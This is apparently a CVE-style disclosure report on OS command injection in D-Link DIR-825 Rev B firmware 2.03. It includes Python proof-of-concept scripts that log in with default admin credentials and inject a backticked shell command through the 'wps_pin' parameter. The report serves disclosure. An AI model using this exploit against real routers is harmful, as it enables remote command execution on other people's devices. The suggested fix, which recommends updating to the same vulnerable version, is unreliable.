 

# CVE Report - Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Title

Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Router. 

## Vulnerability Description

DLINK DIR_825_REVB_FIRMWARE_2.03 devices have an OS command injection vulnerability
in the CGl interface "apc_client_pin.cgi",which allows remote attackers to execute arbitrary
commands via parameter "wps_pin" passed to the "apc_client_pin.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.29'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
#coding=gbk
import requests
import pickle 
import time

device_web_ip = "172.17.0.29"
base_url = "http://172.17.0.29/"

headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {
    'wps_pin':'`echo>x`',
    'wps_enable':'1',
    'wlan0_enable':'1'
    }
r = requests.post(url=base_url+'apc_client_pin.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data and it enters system execution, resulting in a command execution vulnerability.

![image-20241229184418452](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241229184418452.png)

## Suggested Fix

It is recommended to update to the version of DIR_825_REVB_FIRMWARE_2.03 router to fix this vulnerability. 

